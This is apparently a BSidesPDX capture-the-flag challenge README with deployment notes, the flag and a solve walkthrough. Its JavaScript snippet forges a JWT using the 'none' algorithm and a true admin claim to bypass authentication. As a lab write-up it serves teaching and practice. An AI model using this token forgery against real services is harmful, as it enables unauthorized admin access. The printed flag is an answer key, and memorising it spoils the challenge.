 # 100 - Signed, Sealed, Delivered, I'm Yours!

## Description

This challenge is a pretty simple JWT "none" algorithm challenge. You craft a "none" algorithm JWT and change the admin claim to true to get the flag.

The challenger will only be given the address of the frontend.

## Deploy

The backend has the following environment variables:
* LOG_JSON - log as JSON instead of plaintext
* LOG_LEVEL - minimum log level to log at (probably should be "trace")

The frontend Dockerfile has the following build arguments:
* API_URL - external address of the backend

## Challenge

Implementing your own authorization is usually a bad idea, but not if you're a rockstar dev like me.

Flag: `BSidesPDX{5f0505ea-72d1-40c4-8451-d4a3e19e7491}`

## Solve Steps

You could do all of this via the API (especially since it has an "accidentally" exposed swagger doc) or just by using the frontend.

### Register/Login

Register an account and login.

### Attempt to get the flag

Try to get the flag, notice you get a 401 Unauthorized. Inspect the request
and grab the JWT from the Authorization header.

### Inspect JWT

Visit jwt.io and paste in the JWT.
Note the `bsides_is_admin` claim in the payload and the HS256 alg in the header.

### Craft and store the JWT

```js
const tok = localStorage.getItem('jwt')
  .split('.')
  .slice(0, 2)
  .map(v => JSON.parse(atob(v)))
tok[0].alg = "none"
tok[1].bsides_is_admin = true
localStorage.setItem('jwt', tok.map(v => btoa(JSON.stringify(v))).join(".") + ".")
```

### Get the flag

Hit "Get flag"!